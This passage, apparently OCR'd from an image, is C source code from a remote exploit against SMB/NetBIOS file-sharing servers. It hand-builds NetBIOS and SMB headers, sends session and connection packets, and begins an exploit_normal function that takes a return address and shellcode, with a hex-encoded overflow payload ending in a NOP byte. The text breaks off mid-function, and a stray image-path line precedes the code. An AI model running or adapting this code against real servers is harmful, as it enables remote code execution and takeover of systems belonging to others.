             if(write_timer(sock, 3) == 1)
                    if (send(sock, buffer, 50, 0) < 0) return -1;

            memset(response, 0x00, sizeof(response));

            if (read_timer(sock, 3) == 1)
                    if (read(sock, response, sizeof(response) - 1) < 0) return -1;

            netbiosheader = (NETBIOS_HEADER *)response;
            smbheader     = (SMB_HEADER *)(response + sizeof(NETBIOS_HEADER));

            if (netbiosheader->type != 0x00) fprintf(stderr, "+ Recieved a non session message\n");

            netbiosheader   = (NETBIOS_HEADER *)buffer;
            smbheader       = (SMB_HEADER *)(buffer + sizeof(NETBIOS_HEADER));

            memset(buffer, 0x00, sizeof(buffer));

            netbiosheader->type     = 0x00;         /* session message */
            netbiosheader->flags    = 0x00;
            netbiosheader->length   = htons(0x3C);

            smbheader->protocol[0]  = 0xFF;
            smbheader->protocol[1]  = 'S';
            smbheader->protocol[2]  = 'M';
            smbheader->protocol[3]  = 'B';
            smbheader->command      = 0x70;         /* start connection */
            smbheader->pid          = getpid() & 0xFFFF;
            smbheader->tid          = 0x00;
            smbheader->uid          = 100;

            memcpy(buffer + sizeof(NETBIOS_HEADER) + sizeof(SMB_HEADER), session_data2, sizeof(session_data2) - 1);

            if(write_timer(sock, 3) == 1)
                    if (send(sock, buffer, 64, 0) < 0) return -1;

            memset(response, 0x00, sizeof(response));

            if (read_timer(sock, 3) == 1)
                    if (read(sock, response, sizeof(response) - 1) < 0) return -1;

            netbiosheader = (NETBIOS_HEADER *)response;
            smbheader     = (SMB_HEADER *)(response + sizeof(NETBIOS_HEADER));

            if (netbiosheader->type != 0x00) return -1;

            return 0;
    }

    int exploit_normal(int sock, unsigned long ret, char *shellcode)
    {

            char buffer[4000];
            char exploit_data[] =
                    "\x00\xd0\x07\x0c\x00\xd0\x07\x0c\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00"
                    "\x00\xd0\x07\x43\x00\x0c\x00\x14\x08\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00"
                    "\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00"
                    "\x00\x00\x00\x90";
